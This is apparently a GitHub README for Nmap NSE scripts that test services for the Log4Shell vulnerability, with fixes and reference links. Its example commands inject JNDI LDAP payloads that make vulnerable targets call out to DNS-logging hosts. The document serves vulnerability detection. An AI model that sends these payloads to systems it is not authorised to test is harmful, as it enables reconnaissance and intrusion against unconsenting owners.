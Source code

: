 # nse-log4shell

Nmap NSE scripts to check against log4shell or LogJam vulnerabilities (CVE-2021-44228).
NSE scripts check most popular exposed services on the Internet. It is basic script where you can customize payload.


### Examples

Note that NSE scripts will only issue the requests to the services. Nmap will not report vulnerable hosts, but you have to check DNS logs to determine vulnerability.
Also note that DNS resolution with prefixes combination in a expression for log4j-core <= 2.7 seems not supported. So, testing with something like ```${java:os}``` could lead to false negatives.
Therefore, better to have few false positives than negatives.

### By help of logdns (custom DNS logging server)

Go to http://github.com/kost/logdns and get DNS server. Get domain and point to the somewhere where you have installed logdns:

```
nmap --script=http-log4shell,ssh-log4shell,imap-log4shell  '--script-args=log4shell.payload="${jndi:ldap://{{target}}.xxxx.logdns.xxx}"' -T4 -n -p0-65535 --script-timeout=1m MY.IPs.TO.SCAN
```
### By help of dnslog.cn

Go to http://dnslog.cn/ and Get SubDomain. Replace your xxxx with your SubDomain:

```
nmap --script=http-log4shell,ssh-log4shell,imap-log4shell  '--script-args=log4shell.payload="${jndi:ldap://{{target}}.xxxx.dnslog.cn}"' -T4 -n -p0-65535 --script-timeout=1m MY.IPs.TO.SCAN
```

### By help of burpcollaborator

Take your domain from Burp collaborator and replace xxxx with your domain:

```
nmap --script=http-log4shell,ssh-log4shell,imap-log4shell  '--script-args=log4shell.payload="${jndi:ldap://{{target}}.xxxx.burpcollaborator.net/diverto}"' -T4 -n -p0-65535 --script-timeout=1m MY.IPs.TO.SCAN
```

# Solution/Fixes

List of best fixes and workarounds.

## Best fix

Best solution to protect from CVE-2021-44228:
Start your server with log4j2.formatMsgNoLookups set to true, or update to log4j-2.15.0-rc1 or later.

# References

General references and links to the vulnerability

## General

[Reddit thread](https://www.reddit.com/r/blueteamsec/comments/rd38z9/log4j_0day_being_exploited/) - General information about log4shell

[NCC log4shell](https://github.com/NCSC-NL/log4shell) - operational information regarding the vulnerability (IOCs, mitigation, scanning, software)

## Related

[BlueTeam CheatSheet Log4Shell](https://gist.github.com/SwitHak/b66db3a06c2955a9cb71a8718970c592) - Security Advisories / Bulletins linked to Log4Shell (CVE-2021-44228)

[Software List - cheat-sheet reference guide](https://www.techsolvency.com/story-so-far/cve-2021-44228-log4j-log4shell/) - Affected software list by vendor responses

## Testing

[lo4shell.huntress.com](https://log4shell.huntress.com/) - Online Log4Shell Vulnerability Tester

[log4j yara](https://github.com/timb-machine/log4j) - yara rules for local detection

[identify-log4j-class-location.sh](https://gist.github.com/righettod/ce1570954242de2f8772c6f25eece77d) - Script to identify Log4J affected class for CVE-2021-44228 in a collection of ear/war/jar files

## Exploitation

[PoC-log4j-bypass-words](https://github.com/Puliczek/CVE-2021-44228-PoC-log4j-bypass-words) - A trick to bypass words blocking patches

## Exploitation Detection

[log4shell-detector](https://github.com/Neo23x0/log4shell-detector) - Detector for Log4Shell exploitation attempts

[Log4Shell-IOCs](https://github.com/curated-intel/Log4Shell-IOCs) - a list of IOC feeds and threat reports

[log4j_rce_detection.md](https://gist.github.com/Neo23x0/e4c8b03ff8cdf1fa63b7d15db6e3860b) - You can use these commands and rules to search for exploitation attempts 

## Mitigation/Fixing

[log4j advisory](https://logging.apache.org/log4j/2.x/security.html) - Apache Log4j Security Vulnerabilities

[log4j pull request and comments](https://github.com/apache/logging-log4j2/pull/608) - pull request that fixes bug with comments

[Logout4Shell](https://github.com/Cybereason/Logout4Shell) - Quick and dirty alternative to patching manually

